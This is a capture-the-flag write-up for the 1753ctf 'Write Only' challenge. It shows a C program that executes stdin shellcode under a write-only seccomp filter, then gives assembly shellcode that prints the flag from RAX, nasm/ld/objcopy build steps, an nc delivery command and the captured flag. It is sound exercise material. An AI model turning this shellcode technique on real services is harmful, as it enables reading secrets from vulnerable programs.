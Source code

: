 # ✍️ Write Only (Score: 170 / Solves: 33)
The flag is there. But that doesn't mean you'll be able to see it.

nc 147.78.1.47 40183

https://dl.1753ctf.com/write-only?s=jRBXD9EC


## Solution

We received a C file, and were tasked with exploiting it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>

#include <errno.h>
#include <linux/audit.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#include <linux/unistd.h>
#include <stddef.h>
#include <stdio.h>
#include <sys/prctl.h>
#include <unistd.h>

#include <stdbool.h>

bool install_filter()
{
	struct sock_filter filter[] = {
		BPF_STMT(BPF_LD + BPF_W + BPF_ABS, (offsetof(struct seccomp_data, arch))),
		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, AUDIT_ARCH_X86_64, 1, 0),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL_PROCESS),

		BPF_STMT(BPF_LD + BPF_W + BPF_ABS, (offsetof(struct seccomp_data, nr))),

		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_write, 0, 1),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_exit, 0, 1),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_exit_group, 0, 1),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL_PROCESS),
	};
	struct sock_fprog prog = {
		.len = (unsigned short)(sizeof(filter) / sizeof(filter[0])),
		.filter = filter,
	};
	if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0))
	{
		perror("prctl(NO_NEW_PRIVS)");
		return 1;
	}
	if (prctl(PR_SET_SECCOMP, 2, &prog))
	{
		perror("prctl(PR_SET_SECCOMP)");
		return 1;
	}
	return 0;
}

int main()
{
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	const int FLAG_SIZE = 0x40;
	char flag[FLAG_SIZE];
	char *flag_mem = (char *)mmap(NULL, FLAG_SIZE, PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	FILE *flag_file = fopen("flag", "r");
	fread(flag_mem, 1, FLAG_SIZE, flag_file);
	fclose(flag_file);

	const int CODE_SIZE = 0x200;
	char *code_mem = (char *)mmap(NULL, CODE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	read(STDIN_FILENO, code_mem, CODE_SIZE);
	mprotect(code_mem, CODE_SIZE, PROT_READ | PROT_EXEC);

	install_filter();

	asm(
		"mov rax, %0;" // flag address in rax
		"jmp %1;"	   // jump into recdeived code
		:			   // no output
		: "r"(flag_mem), "r"(code_mem));
}
```

The key vulnerability lies in the dynamic execution of untrusted code read from stdin. The program executes this code with the flag's memory address available, allowing a carefully crafted payload to read the flag and output it using the allowed write system call.

To exploit this program and capture the flag:

Craft a Payload: You need to write assembly code (or compile C code to assembly that fits the constraints) that:

Uses the write system call to output the flag to stdout.
Operates under the assumption that the starting address of the flag is provided in the RAX register (as the program's final instructions before executing the untrusted code suggest).
Adheres to the x86_64 calling conventions, specifically for system calls (e.g., system call number in RAX, arguments in RDI, RSI, RDX, etc., for the write syscall).
Bypass the seccomp Filter: Ensure your payload only uses the allowed system calls (write, exit, exit_group). Since the program explicitly kills any process that attempts to use a system call other than these, your payload must avoid making any other system calls.

Deliver the Payload: Once your payload is ready, you just need to provide it to the program's stdin when executed. This could be done by echoing the payload and piping it into the program, or by providing it through an input file redirected to the program.

```assembly
; Move the flag address from RAX to RSI (since RAX will be overwritten for syscall number)
mov rsi, rax

; Write syscall number (1) to RAX
mov rax, 1

; Set file descriptor to stdout (1) in RDI
mov rdi, 1

; Set number of bytes to write in RDX
mov rdx, 0x40

; Invoke the syscall
syscall

; Exit syscall
mov rax, 60  ; syscall number for exit
xor rdi, rdi ; status code 0
syscall
```

```sh
nasm -f elf64 payload.asm -o payload.o
ld -o payload payload.o
objcopy -O binary payload payload.bin
nc 147.78.1.47 40183 < payload.bin
```

1753c{yes_its_write_only_but_you_can_read_it_too}
